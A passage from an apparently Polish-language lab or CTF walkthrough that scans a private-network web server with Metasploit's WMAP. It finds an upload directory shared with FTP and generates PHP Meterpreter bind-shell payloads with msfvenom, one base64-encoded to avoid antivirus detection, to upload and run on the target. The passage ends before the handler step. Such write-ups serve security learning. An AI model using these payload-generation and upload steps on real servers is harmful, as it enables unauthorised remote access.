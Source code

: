 ```bash
msf6 auxiliary(scanner/ftp/anonymous) > load wmap

.-.-.-..-.-.-..---..---.
| | | || | | || | || |-'
`-----'`-'-'-'`-^-'`-'
[WMAP 1.5.1] ===  et [  ] metasploit.com 2012
[*] Successfully loaded plugin: wmap
msf6 auxiliary(scanner/ftp/anonymous) > wmap_sites -a http://172.16.1.244
[*] Site created.
msf6 auxiliary(scanner/ftp/anonymous) >
msf6 auxiliary(scanner/ftp/anonymous) > wmap_run -e
[*] Using ALL wmap enabled modules.
[-] NO WMAP NODES DEFINED. Executing local modules
[*] Testing target:
[*]     Site: 172.16.1.244 (172.16.1.244)
[*]     Port: 80 SSL: false
..........
..........
```
Zobaczmy co nam **Wmap** znalazł:
{: .text-justify}
```bash
msf6 auxiliary(scanner/ftp/anonymous) > wmap_vulns -l
[*] + [172.16.1.244] (172.16.1.244): scraper /
[*]     scraper Scraper
[*]     GET Apache2 Ubuntu Default Page: It works
[*] + [172.16.1.244] (172.16.1.244): directory /files/
[*]     directory Directory found.
[*]     GET Res code: 404
[*] + [172.16.1.244] (172.16.1.244): directory /icons/
[*]     directory Directory found.
[*]     GET Res code: 403
[*] + [172.16.1.244] (172.16.1.244): file /index.html
[*]     file File found.
[*]     GET Res code: 404
[*] + [172.16.1.244] (172.16.1.244): file /files
[*]     file File found.
[*]     GET Res code: 301
```
Voilà – jest katalog _files_, a w nim plik _CALL.html_, tak jak na było **FTP**. To jest to samo, tylko widoczne z innych źródeł. Wchodząc na _http://172.16.1.244/files/CALL.html_ nic ciekawego nie znajdziemy, chociaż w tytule strony jest **onion**. Nazwa nam nic nie mówi. Jednak wychodzi, że strona **WWW** jest powiązana z **FTP**. Przez **FTP** wrzucamy plik, a przez **WWW** go odpalamy. Oczywiście do tego użyjemy **Metasploit**a (oprócz wrzutki przez **FTP**). Najlepsze ładunki są z ładunkiem **Meterpreter**a, więc ich szukajmy:
{: .text-justify}
```bash
# root@kali:~# msfvenom -p php/meterpreter/bind_tcp LPORT=5555 > php_meterpreter_bind_tcp.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1338 bytes
```
Jeżeli nam **Windows** wykryje, że ten ładunek to wirus, to należy go zaciemnić i potem wyedytować plik: na początku dodać **<?php**, na końcu **?>**
{: .text-justify}
{: .notice--danger}
```bash
# root@kali:~# msfvenom -e php/base64 -p php/meterpreter/bind_tcp LPORT=5555 > php_meterpreter_bind_tcp.php
```
Do katalogu _files_ wrzucamy _php_meterpreter_bind_tcp.php_, ale zanim odświeżymy i uruchomimy na stronie, to załadujmy nasz ładunek i exploita w **Msfconsole**:
{: .text-justify}